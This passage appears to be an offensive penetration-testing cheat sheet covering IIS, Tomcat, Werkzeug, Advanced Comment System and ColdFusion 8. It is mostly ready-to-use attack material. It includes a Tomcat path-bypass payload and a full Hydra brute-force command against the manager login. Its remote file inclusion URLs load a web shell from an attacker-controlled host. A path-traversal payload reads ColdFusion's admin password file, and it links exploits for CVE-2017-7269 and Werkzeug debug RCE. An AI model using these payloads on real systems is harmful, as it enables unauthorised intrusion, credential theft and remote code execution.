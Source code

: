 #### IIS

* Default Web root Path
  - `C:\inetpub\wwwroot`
* IIS 6.0
  - [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)
    - Can only run once!!

-----

#### Tomcat

* Tomcat Path
  - `/manager/status/all`
  - `/admin/dashboard`
* Path Bypass
  - With `/..;/`
    - e.g. `/manager/status/..;/html/upload`
* Brute Force
  - Metasploit
    - `scanner/http/tomcat_mgr_login`
  - Hydra
```
hydra -L  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -f {IP} -s {PORT} http-get /manager/html
```

-----

#### Werkzeug

- Debug Page RCE
    - https://github.com/its-arun/Werkzeug-Debug-RCE

-----

#### Advanced Comment System 1.0
 * CVE-2009-4623
   * RFI
     * `/advanced_comment_system/index.php?ACS_path=http://{IP}/`
     * `/advanced_comment_system/admin.php?ACS_path=http://{IP}/`
   * Rename shell.php to config.php
   * https://www.exploit-db.com/exploits/9623

-----

#### Adobe ColdFusion 8

* CVE-2010-2861
  * LFI
    * `http://{IP}/{PATH}/CFIDE/administrator/enter.cfm?locale={LFI}`
    * Password Path
      * `../../../../../../../../../../ColdFusion8/lib/password.properties%00en`
  * https://www.exploit-db.com/exploits/14641
